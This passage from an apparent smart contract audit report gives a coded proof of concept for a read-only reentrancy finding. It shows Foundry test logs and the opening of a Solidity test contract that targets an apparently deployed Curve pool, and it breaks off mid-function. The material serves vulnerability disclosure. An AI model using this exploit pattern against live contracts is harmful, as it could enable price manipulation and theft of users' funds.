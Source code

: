 This would require changing the `_currentBalance` to non-view which is most likely a painful change, but one that I recommend overall


###  17.2. <a name='CodedPOC'></a>Coded POC

```python
[PASS] testViewReenter() (gas: 311132)
Logs:
  original_price 999692966893247721
  original_price 1077695319132698530
  Hello from the view-reentrant side
```

```solidity
// SPDX-License Identifier: MIT

pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/console2.sol";

interface ICurvePoolWeird {
    function add_liquidity(uint256[2] memory amounts, uint256 min_mint_amount) external payable returns (uint256);
    function remove_liquidity(uint256 _amount, uint256[2] memory _min_amounts) external returns (uint256[2] memory);
}

interface ICurvePool {
    function add_liquidity(uint256[2] memory amounts, uint256 min_mint_amount) external payable returns (uint256);
    function remove_liquidity(uint256 _amount, uint256[2] memory _min_amounts) external returns (uint256[2] memory);

    function get_virtual_price() external view returns (uint256);
    function remove_liquidity_one_coin(uint256 _token_amount, int128 i, uint256 _min_amount) external;

    function get_dy(int128 i, int128 j, uint256 dx) external view returns (uint256);
}

interface IERC20 {
    function balanceOf(address) external view returns (uint256);
    function approve(address, uint256) external returns (bool);
    function transfer(address, uint256) external returns (bool);
}

contract VieReentrant is Test {
    ICurvePool pool = ICurvePool(0xDC24316b9AE028F1497c275EB9192a3Ea0f67022);
    IERC20 token = IERC20(0x06325440D014e39736583c165C2963BA99fAf14E);

    function start() external payable {
        uint256 original_price = pool.get_dy(1, 0, 1e18);
        console2.log("original_price", original_price);
        console2.log("original_price", pool.get_virtual_price());

        uint256[2] memory minAmts;
        minAmts[0] = 0;
        minAmts[1] = 0;
        pool.remove_liquidity_one_coin(token.balanceOf(address(this)), 0, 0);
    }

    function reEnter() internal {
        console2.log("Hello from the view-reentrant side");
```